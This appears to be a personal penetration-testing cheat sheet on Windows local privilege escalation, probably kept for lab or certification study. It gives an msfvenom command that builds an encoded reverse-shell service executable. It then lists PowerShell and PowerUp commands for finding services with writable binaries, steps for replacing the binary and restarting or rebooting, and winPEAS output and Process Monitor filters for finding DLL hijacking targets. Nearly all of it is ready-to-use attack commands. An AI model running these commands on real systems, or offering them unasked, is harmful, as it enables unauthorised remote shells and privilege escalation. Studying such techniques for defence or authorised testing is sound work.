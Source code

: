 
MSFVenom payload:
```
msfvenom -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -f exe-service -o winshell.exe LHOST=IP LPORT=PORT
```

Finding a service:
```
// Important: only works in "interactive situations". If it throws an error, it's not interactive. Then, use Winpeas.exe --> "Services Information", always works.
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
// OR
. .\PowerUp.ps1
Get-ModifiableServiceFile                  // might not always work
```

If there is a vulnerable service (overwritable binary), replace the binary.
To start/reboot the service:

```
sc.exe stop ServiceName
sc.exe start ServiceName
```
If this gets denied, check if reboot privileges are enabled:
```
whoami /priv
shutdown /r /t 0
```



#### DLL Hijacking
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking
```
 
   =================================================================================================                   
   
    GammaService(GammaService)[C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe] - System - isDotNet - No quotes and Space detected                                                                                              
    File Permissions: Users [WriteData/CreateFiles]                                                                                                                                                                                            
    Possible DLL Hijacking in binary folder: C:\Program Files\Enterprise Apps\Current Version (Users [WriteData/CreateFiles])                                                                                                                  
   =================================================================================================    
 // PART REMOVED
 // PART REMOVED
 // PART REMOVED 
 Check if you can modify installed software https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#software                                                                                                          
    C:\Program Files\7-Zip                                                                                                                                                                                                                     
    C:\Program Files\Common Files                                                                                                                                                                                                              
    C:\Program Files\desktop.ini                                                                                       
    C:\Program Files\Enterprise Apps(Users [WriteData/CreateFiles])                                                                                                                                                                            
    C:\Program Files\Internet Explorer                                                                                                                                                                                                         
    C:\Program Files\KeePass Password Safe 2                                     
```
The `C:\Program Files\Enterprise Apps` is writable by the user, and hosts DLLs.

To check which DLLs are called, copy the executable to the Windows VM and run Process monitor with these filters:
```
result contains "Not found"
Process Name is "EXECUTABLE_NAME"

```